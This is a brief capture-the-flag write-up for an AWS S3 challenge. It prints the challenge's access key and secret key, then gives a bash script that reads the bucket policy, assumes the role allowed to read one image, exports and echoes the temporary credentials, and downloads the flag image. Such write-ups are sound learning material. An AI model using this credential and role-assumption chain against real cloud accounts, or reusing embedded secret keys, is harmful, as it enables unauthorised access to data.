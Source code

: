 # Challenge
There is a bucket full of cat images. One of them contains a flag. Go get it!

Bucket: cats-in-a-bucket
Access Key ID: AKIATZ2X44NMCEQW46PL
Secret Access Key: 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

## Solution

Don't even ask. I'm not well versed in AWS and did it googling a lot. So I'm writing this down just so I can come back copy something when I need it.

```bash
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
export AWS_ACCESS_KEY_ID=AKIATZ2X44NMCEQW46PL
export AWS_SECRET_ACCESS_KEY=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

role=$(aws s3api get-bucket-policy --bucket cats-in-a-bucket | \
       jq '.Policy' | \
       tr -d '\\' | \
       sed 's/^"//g;s/"$//g' | \
       jq -r '.Statement[] | select(.Resource == "arn:aws:s3:::cats-in-a-bucket/cat4.jpg") | .Principal.AWS')

output=$(aws sts assume-role --role-arn $role --role-session-name "MySession");
export AWS_ACCESS_KEY_ID=$(jq -r '.Credentials.AccessKeyId' <<< $output);
export AWS_SECRET_ACCESS_KEY=$(jq -r '.Credentials.SecretAccessKey' <<< $output);
export AWS_SESSION_TOKEN=$(jq -r '.Credentials.SessionToken' <<< $output); echo $AWS_SECRET_ACCESS_KEY,$AWS_SESSION_TOKEN,$AWS_ACCESS_KEY_ID;
aws sts get-caller-identity;
aws s3 cp s3://cats-in-a-bucket/cat4.jpg cat4.jpg
```

The flag was written in the image.

